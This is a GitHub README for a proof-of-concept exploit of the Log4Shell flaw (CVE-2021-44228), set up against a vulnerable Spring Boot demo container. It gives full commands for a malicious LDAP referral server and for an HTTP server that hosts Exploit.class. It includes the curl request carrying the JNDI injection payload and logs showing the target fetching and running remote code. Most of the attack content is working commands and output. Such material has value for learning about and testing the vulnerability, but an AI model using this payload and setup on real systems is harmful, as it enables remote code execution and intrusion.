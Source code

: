 # Log4Shell POC (CVE-2021-44228)

The scope of this repository is to provide all the components needed to exploit CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/),   
and to show how to exploit it.

The ingredients needed to exploit this vulnerability are the following:
1. An **LDAP Server** that will redirect the vulnerable application to the exploit.
2. A **Vulnerable application** (Spring Boot web application vulnerable to CVE-2021-44228) using a vulnerable version of Log4J.
3. The Java **Exploit.class** (and the corresponding
Exploit.java file) that will be loaded by the Vulnerable application.
4. An **http server** from which the Vulnerable application will download the malicious Exploit.class

Credits:
- The **LDAP Server** has been pulled out from [mbechler](https://github.com/mbechler/marshalsec) Marshalsec repository.
- The **Vulnerable application** is the one provided by [christophetd](https://github.com/christophetd/log4shell-vulnerable-app).

Prerequisites:
- Maven
- Java
- Docker
- Python

## Running `LDAP Server` and `HTTP Server`
### `HTTP Server`
**1**. Move to `exploit` folder and spin up the http server by means of Python.
```
python3 -m http.server PORT
```
### `LDAP Server`
**1.** Move to `ldap_server` folder and build the `pom.xml`


```bash
mvn clean package -DskipTests
```

**2.** Move to `target` folder and spin up the server specifying `http_server_ip` and `http_server_port`

```
java -cp ldap_server-1.0-all.jar marshalsec.jndi.LDAPRefServer "http://http_server_ip:http_server_port/#Exploit"
```

*Note: this command runs the malicious ldap server by enforcing it to answer with the **Exploit.class** URI to every ldap query.*




## Running the `Vulnerable application`

Run the docker vulnerable application docker container

```
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

*Note: by default we're executing the vulnerable application on port 8080, feel free to change it.*

## Exploitation
Once the `vulnerable_application`, the `ldap_server` and the `http_server`
 are running, send a malicious http request to the vulnerable server.

```
curl VULNERABLE_APPLICATION_IP:8080 -H 'X-Api-Version: ${jndi:ldap://ldap_server_ip:1389/a}'
```

The `vulnerable_application` will log the payload and will perform an ldap query

```
2021-12-24 18:48:14.644  INFO 1 --- [nio-8080-exec-1] HelloWorld: Received a request for API version ${jndi:ldap://10.0.2.15:1389/a}
```

The `ldap_server` will answer with the Exploit.class URI

```
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.0.2.15:8443/Exploit.class
```

The `http_server` will receive a request to Exploit.class

```
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
172.17.0.2 - - [24/Dec/2021 19:48:14] "GET /Exploit.class HTTP/1.1" 200 -
```

Finally, we can check that the exploit created a new file on the victim filesystem. In this example we need to check the docker container filesystem.

![](./POC.png)

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/   
https://github.com/mbechler/marshalsec   
 https://github.com/christophetd/log4shell-vulnerable-app

## Contributors
[@CrashOverflow](https://github.com/marcourbano)
